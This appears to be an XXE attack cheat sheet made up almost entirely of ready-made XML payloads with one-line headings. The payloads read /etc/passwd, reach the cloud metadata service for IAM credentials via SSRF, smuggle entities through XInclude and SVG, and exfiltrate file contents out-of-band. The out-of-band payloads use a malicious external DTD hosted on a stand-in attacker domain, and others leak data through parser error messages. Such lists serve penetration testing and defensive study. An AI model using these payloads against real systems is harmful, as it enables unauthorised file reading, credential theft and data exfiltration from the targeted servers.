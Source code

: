 ### XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

### XXE to perform SSRF

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```
### XXE using XInclude to retrieve files

```
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

### XXE trough SVG

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

### XXE via modified content type

Original:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar 
```

Modified:

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo> 
```

### Blind XXE via Out-of-Band network

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]> 
```

### Blind XXE with out-of-band interaction via XML parameter entities

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]> 
```

### Blind XXE using malicious external DTD

Malicious DTD:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate; 
```

Trigger vulnerability:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]> 
```

### Blind XXE to retrieve data via error messages

Malicious DTD:

```
<!ENTITY % x SYSTEM "file:///etc/passwd">
<!ENTITY % y "<!ENTITY &#x25; z SYSTEM 'file:///nonexistent/%x;'>">

%y;
%z;
```

Trigger vulnerability:

```
<!DOCTYPE hh [ <!ENTITY % e SYSTEM "https://web-attacker.com/exploit.dtd"> %e;]>
```

### Blind XXE verifying presence of file

If any errors show up it is because the file don't exist.

```
<!DOCTYPE xx [
<!ENTITY % x SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%x;]>
```

### Blind XXE triggering via internal DTD

```
<!DOCTYPE xx [
	<!ENTITY % x SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
	<!ENTITY % ISOamso '
		<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
		<!ENTITY &#x25; y "<!ENTITY &#x26;#x25; exf SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
		&#x25;y;
		&#x25;exf;
	'>
	%x;
]> 
```


